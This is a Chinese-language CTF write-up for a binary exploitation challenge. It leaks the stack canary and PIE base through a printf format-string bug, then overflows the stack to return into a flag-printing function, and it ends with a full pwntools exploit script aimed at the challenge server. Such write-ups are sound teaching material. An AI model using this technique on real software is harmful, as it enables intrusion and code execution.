



# pwn sea wp
一道保护繁多的栈题。  
## 题面
你是一名航天局的紧急维护专家，负责的 “寂静之海” 深空探测器在穿越小行星带时受到严重损伤，导致主要通信链路彻底瘫痪。你现在仅能通过一条紧急诊断链路向探测器发送指令。  
探测器的紧急维护固件中包含一个后门，它的作用是重启通信模块，你需要在有限机会内，准确找到后门，恢复探测器通信。  

## 分析
查看保护：
``` bash
❯ pwn checksec --file=sea
[*] '/data/project/ctf-repo/pwn/iscc2026/sea/sea'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

保护几乎全开。  

运行程序看看，发现有两次输入，并且会 print 输出。考虑有格式化字符串漏洞。  

```
❯ ./sea
--- Sea of Silence Diagnostic v2.0 ---
Awaiting Emergency Command (Max 256 bytes).

[Remaining Attempts: 2] > %p%p
0x7ffe0596c7700x7c
[Remaining Attempts: 1] > %s
%s
p

p

```

打开 ida 看反编译：  

先看看字符串表，发现 `cat flag.txt` 字符串，交叉引用到一个函数：
``` c
void __noreturn system_reboot_comms()
{
  puts("[+] Comm-Link Re-established. Entering Maintenance Shell.");
  fflush(stdout);
  system("cat flag.txt");
  exit(0);
}
```
显然，我们大概只需要返回到该函数就行。  

找到 main 函数：
``` c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  init_diagnostic_mode();
  process_emergency_command();
  return 0;
}
```
一个仅为初始化，另一个才是漏洞函数：
``` c
unsigned __int64 process_emergency_command()
{
  char buf[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v2; // [rsp+78h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Awaiting Emergency Command (Max 256 bytes).\n");
  while ( attempts > 0 )
  {
    printf("[Remaining Attempts: %d] > ", attempts);
    if ( (int)read(0, buf, 0x7Cu) <= 0 )
      break;
    printf(buf);
    fflush(stdout);
    --attempts;
  }
  return __readfsqword(0x28u) ^ v2;
}
```
两次机会利用漏洞。  
可以利用格式化字符串漏洞泄露地址，也可以写入 0x7c 字节的数据进行字符串泄露。不过可能写入的空间不太多。  

这道题有 canary，所以第一次利用需要泄露 canary 值，而且我们还要考虑到 PIE 保护，要找到一个合适的栈帧上面保存 .text 段地址。  
在带漏洞的 printf 初打断点。当调用 printf 后查看栈空间：  



打断点：
```
b *(process_emergency_command + 120)
```
运行到后再 next 确保 printf 执行输出后查看栈内容：  

 
有 main 函数的地址段，可以利用此获得程序基址。  
甚至不需要构造 ROP 链（压根没有足够空间留给我们构造）  

## 利用
首先确定 printf 的偏移量：
``` python
payload = b"aaaaaaaa" + b" %p" * 20
```
确定偏移量为 8。  

通过 idapro 确定输入的 buf 位于 rbp-0x70，而 canary 值在 rbp - 0x8 处。  
计算得到相对偏移应该为 8 + (0x70-0x8)/8 = 21  
而 main+47 的地址也要同时得到，该偏移量为 23。  
附加 `*` 来分割综合得到第一次 payload 为：  
``` python
payload = b"%21$p*%23$p*"
```
通过 ida 获得 main+47 的偏移量为：0x13fb。  
得到的地址减去它就能拿到基址，具体为：  

```python
payload = b"%21$p*%23$p*"

io.recvuntil(b"[Remaining Attempts: 2] > ")
io.send(payload)
canary = int(io.recvuntil(b"*")[:-1], 16)
bu_addr = int(io.recvuntil(b"*")[:-1], 16)
base_addr = bu_addr - 0x13fb
```

这样就可以得到 system_reboot_comms 函数的真实地址。  
同时，因为 x86_64 的栈对齐要求，不能直接跳转 system_reboot_comms 最开始的地址，而可以选择在函数处理完成栈相关寄存器后的地址跳转。这里选择:
``` asm
.text:0000000000001242      xor     eax, eax
```

这样加上基址就得到运行时的地址：

``` python
system_func_addr = 0x1242
system_func_addr += base_addr
```

第一步利用就这样，第二次利用就是栈溢出。  
构建的 payload 大致为：
| payload:                |
|-------------------------|
| 填充：b'a' * (0x70-0x8) |
| canary： p64(canary)    |
| 保存的寄存器： b'a'*8   |
| system_func_addr        |

但是这道题另一个坑点又来了……  
如果 payload 长这样：
``` python
payload = b"a" * (0x70-8) + p64(canary) + b"a" * 8 + p64(system_func_addr)
```
改字节流的长度为 0x80，超出了 4 字节，会截断最后 system_func_addr 的地址，导致远程打不通（本地居然可以）  
而只能输入 system_func_addr 的低 4 位地址，所以应该要用:`p32(system_func_addr & 0xffffffff)`  
最后的 payload 为：  
``` python
payload = b"a" * (0x70-8) + p64(canary) + b"a" * 8 + p32(system_func_addr & 0xffffffff)
```
利用为:  
``` python
io.recvuntil(b"[Remaining Attempts: 1] > ")
payload = b"a" * (0x70-8) + p64(canary) + b"a" * 8 + p32(system_func_addr & 0xffffffff)
print(hex(len(payload)))
io.send(payload)
io.interactive()
```

也是成功拿到 flag 没有爆零啊:



## exp
``` python
from pwn import *

io = connect("39.96.193.120", 10009)
#io = process("./sea")
offset = 8

system_func_addr = 0x1242

payload = b"%21$p*%23$p*"

io.recvuntil(b"[Remaining Attempts: 2] > ")
io.send(payload)
canary = int(io.recvuntil(b"*")[:-1], 16)
bu_addr = int(io.recvuntil(b"*")[:-1], 16)
base_addr = bu_addr - 0x13fb

system_func_addr += base_addr

print("canary: ", hex(canary))
print("base addr: ", hex(base_addr))
print("system_func_addr: ", hex(system_func_addr))

io.recvuntil(b"[Remaining Attempts: 1] > ")
payload = b"a" * (0x70-8) + p64(canary) + b"a" * 8 + p32(system_func_addr & 0xffffffff)
print(hex(len(payload)))
io.send(payload)
io.interactive()
```
